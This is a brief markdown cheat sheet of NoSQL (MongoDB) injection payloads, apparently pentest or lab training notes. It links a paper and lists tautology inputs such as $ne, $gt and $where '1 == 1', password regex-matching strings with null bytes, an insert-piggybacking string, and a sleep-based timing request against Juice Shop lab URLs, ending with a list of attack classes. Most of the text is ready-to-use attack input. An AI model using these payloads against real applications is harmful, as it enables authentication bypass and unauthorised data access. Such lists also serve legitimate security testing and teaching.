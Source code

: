 ## Injections
Paper on NoSQL injection: https://arxiv.org/ftp/arxiv/papers/1506/1506.04082.pdf

## Simple bolean true injection (Tautologies)
```sql
# This is equal to 1=1 in SQLi
http://<target-site>?id{\"\$ne\":null}
http://demo1.ine.local/?name[$ne]=bob
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
'||''==''
```

## Sleep

```html
http://juiceshop.ine.local:3000/rest/product/<vulnerable>/reviews
http://juiceshop.ine.local:3000/rest/product/sleep(10000)/reviews
```
# NoSQL attack
* Tautologies
* Union queries
* JavaScript injections
* Piggybacked queries
* Cross-origin violations
